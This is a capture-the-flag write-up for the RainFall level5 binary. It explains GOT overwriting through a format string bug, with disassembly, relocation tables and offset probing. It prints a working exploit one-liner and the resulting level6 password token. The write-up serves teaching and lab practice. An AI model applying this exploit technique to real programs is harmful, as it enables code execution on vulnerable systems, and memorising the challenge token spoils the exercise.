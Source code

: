 ## level5
In `level5` we will be __Overwriting the Global Offset Table__. <br> Within this executable we have three functions `main(), n()` and `o()` that's is never called and
not visible to us until we use:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
[...]
```
One important thing to note here is that the function `n()` will not return like all the functions so far has done, at the end of the function, instead of using
a `ret` the function will call <br> `0x080484ff <+61>:	call   0x80483d0 <exit@plt>` <br> and that `exit()` call will make our `format string exploit` a little
bit different, and for that we will be checking the `GOT`. <br>
Since a program could use a function in a shared library many times, it's useful to have a table to reference all the functions. Another special section in compiled
programs is used for this purpose - the *procedure linkage table* (PLT).<br> This section consists of many jump instructions, each one corresponding to the address
of a function. It works like a springboard - time a shared function needs to be called, controll will pass through the PLT.
```
~$ objdump -d -j .plt ./level5

./level5:     file format elf32-i386


Disassembly of section .plt:

08048370 <printf@plt-0x10>:
 8048370:	ff 35 1c 98 04 08    	pushl  0x804981c
 8048376:	ff 25 20 98 04 08    	jmp    *0x8049820
 804837c:	00 00                	add    %al,(%eax)
	...

08048380 <printf@plt>:
 8048380:	ff 25 24 98 04 08    	jmp    *0x8049824
 8048386:	68 00 00 00 00       	push   $0x0
 804838b:	e9 e0 ff ff ff       	jmp    8048370 <_init+0x3c>

08048390 <_exit@plt>:
 8048390:	ff 25 28 98 04 08    	jmp    *0x8049828
 8048396:	68 08 00 00 00       	push   $0x8
 804839b:	e9 d0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483a0 <fgets@plt>:
 80483a0:	ff 25 2c 98 04 08    	jmp    *0x804982c
 80483a6:	68 10 00 00 00       	push   $0x10
 80483ab:	e9 c0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483b0 <system@plt>:
 80483b0:	ff 25 30 98 04 08    	jmp    *0x8049830
 80483b6:	68 18 00 00 00       	push   $0x18
 80483bb:	e9 b0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483c0 <__gmon_start__@plt>:
 80483c0:	ff 25 34 98 04 08    	jmp    *0x8049834
 80483c6:	68 20 00 00 00       	push   $0x20
 80483cb:	e9 a0 ff ff ff       	jmp    8048370 <_init+0x3c>

080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>

080483e0 <__libc_start_main@plt>:
 80483e0:	ff 25 3c 98 04 08    	jmp    *0x804983c
 80483e6:	68 30 00 00 00       	push   $0x30
 80483eb:	e9 80 ff ff ff       	jmp    8048370 <_init+0x3c>
```
One of these jump instructions is associated with the `exit()` function, which is called at the end of the `n()` function to exit the prgram. If the `jmp` 
instruction used for the `exit()` function can be manipulated to direct the execution flow int `o()` function we can get it to execute the `system()` function.
The problem here is that the *procedure linking table* is read only:
```diff
level5@RainFall:~$ objdump -h level5 | grep -A1 "\ .plt\ "
 11 .plt         00000080  08048370  08048370  00000370  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
```
But closer examination of the `jmp` instructions reveals that they aren't jumping to __addresses__ but to pointers to addresses. For example the `exit()` function is stored as a pointer at the memory __address__ `0x8049838`. <br> These __addresses__ exist in another section, called the __*global offset table (GOT)*__ which is writable. These __addresses__ can be directly obtained by displaying the dynamic relocation entries for the binary bu using `objdump`
```
~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
|address | fucntion|
|--------|---------|
|0x08049838|`exit()`|
|0x080484a4| `o()`|

If we pay attention above we can see that only the two right most bytes are differents, so what we need to do is change those two bytes. <br>
From the `printf()` main page we know that: *An optional length modifier, that specifies the size of the argument.* Here we will be using `%h` that represents a *short* or a *half-word*

if we convert those two bytes from hex to decimal with the help of [hex-to-int](https://www.rapidtables.com/convert/number/hex-to-decimal.html) we get `0x84a4 = 33956`.<br> So lets get the **offset** as before
```
~$ echo "AAAA %x %x %x %x %x" | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```
So here we see can our __offset__ is again at position 4th and with the `%h` for the *short* it will be `%4\$hn` so far we have all we need to create our *format string exploit:* <br>
`(python -c "print('\x38\x98\x04\x08' + '%33952d%4\$hn')"; cat -) | ./level5` <br>
Now all we need to do is get the token:
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
